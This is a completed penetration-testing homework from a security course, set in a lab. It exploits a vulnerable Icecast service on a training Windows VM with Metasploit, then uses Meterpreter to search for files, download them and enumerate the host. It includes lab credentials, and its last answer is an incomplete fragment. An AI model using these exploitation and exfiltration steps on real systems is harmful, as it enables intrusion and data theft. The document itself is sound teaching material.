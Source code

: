 ## Homework: Penetration Test Engagement

In this activity, you will play the role of an independent penetration tester hired by GoodCorp Inc. to perform security tests against their CEO’s workstation.

- The CEO claims to have passwords that are long and complex and therefore unhackable.

- You are tasked with gaining access to the CEO's computer and using a Meterpreter session to search for two files that contain the strings `recipe` and `seceretfile`.

- The deliverable for this engagement will be in the form of a report labeled `Report.docx`.

### Setup 

#### Reminders

- A penetration tester's job is not just to gain access and find a file. Pentesters need to find all vulnerabilities, and document and report them to the client. It's quite possible that the CEO's workstation has multiple vulnerabilities.
 
-  If a specific exploit doesn't work, that doesn't necessarily mean that the target service isn't vulnerable. It's possible that something could be wrong with the exploit script itself. Remember, not all exploit scripts are right for every situation.
 
#### Scope
 
- The scope of this engagement is limited to the CEO's workstation only. You are not permitted to scan any other IP addresses or exploit anything other than the CEO's IP address.
 
- The CEO has a busy schedule and cannot have the computer offline for an extended period of time. Therefore, denial of service and brute force attacks are prohibited. 
 
- After you gain access to the CEO’s computer, you may read and access any file, but you cannot delete them. Nor are you allowed to make any configurations changes to the computer.
 
- Since you've already been provided access to the network, OSINT won't be necessary.
 
#### Lab Environment
 
For this week's homework, please use the following VM setup:
 
- Attacking machine: Kali Linux `root:toor`
- Target machine: DVW10 `IEUser:Passw0rd!`

**NOTE**: You will need to login to the **DVW10** VM and start the `icecast` service prior to beginning this activity using the following procedure:

- After logging into DVW10, type "icecast" in the Cortana search box and hit **Enter**.
- The icecast application will launch.
- Click on **Start Server**.
- You are now ready to being the activity.

#### Deliverable

Once you complete this assignment, submit your findings in the following document: 

- [Report.docx](Resources/Report.docx)
 
### Instructions

You've been provided full access to the network and are getting ping responses from the CEO’s workstation.
 
1. Perform a service and version scan using Nmap to determine which services are up and running:

    - Run the Nmap command that performs a service and version scan against the target.

      > Answer: nmap -sV "192.168.0.20"
      
      ![](images/17-1.png)
 
 
2. From the previous step, we see that the Icecast service is running. Let's start by attacking that service. Search for any Icecast exploits:
 
   - Run the SearchSploit commands to show available Icecast exploits.
  
     > Answer: searchsploit icecast
     
     ![](images/17-2.png)

3. Now that we know which exploits are available to us, let's start Metasploit:
 
   - Run the command that starts Metasploit:
    
     > Answer: msfconsole
 
 
4. Search for the Icecast module and load it for use.
 
   - Run the command to search for the Icecast module:
     
     > Answer: search icecast
     
     ![](images/17-3.png)

   - Run the command to use the Icecast module:

       **Note:** Instead of copying the entire path to the module, you can use the number in front of it.

     > Answer: use 0
 
 
5. Set the `RHOST` to the target machine.
 
   - Run the command that sets the `RHOST`:
      
     > Answer: set RHOSTS 192.168.0.20
 
6. Run the Icecast exploit.
 
   - Run the command that runs the Icecast exploit.
      
     > Answer: run / exploit
 
   - Run the command that performs a search for the `secretfile.txt` on the target.
      
     > Answer: search -f *secretfile.txt
     
     ![](images/17-4.png)
  
 7. You should now have a Meterpreter session open.
 
    - Run the command to performs a search for the `recipe.txt` on the target:

      > Answer: search -f *recipe.txt
      
      ![](images/17-5.png)
 
    - **Bonus**: Run the command that exfiltrates the `recipe*.txt` file:

      > Answer: download "c:\users\ieuser\documents\drink.recipe.txt"
      
      ![](images/17-6.png)

8. You can also use Meterpreter's local exploit suggester to find possible exploits.
 
   - **Note:** The exploit suggester is just that: a suggestion. Keep in mind that the listed suggestions may not include all available exploits.
      > Answer: run post/multi/recon/local_exploit_suggester
 
#### Bonus
  
 
A. Run a Meterpreter post script that enumerates all logged on users.

  > Answer: run post/windows/gather/enum_logged_on_users
 
     
B. Open a Meterpreter shell and gather system information for the target.
 
  > Answer: shell; systeminfo
 
C. Run the command that displays the target's computer system information:

   > Answer: 

icecast 2.0 header over CVE2004-1561

---

&copy; 2020 Trilogy Education Services, a 2U Inc Brand.   All Rights Reserved.

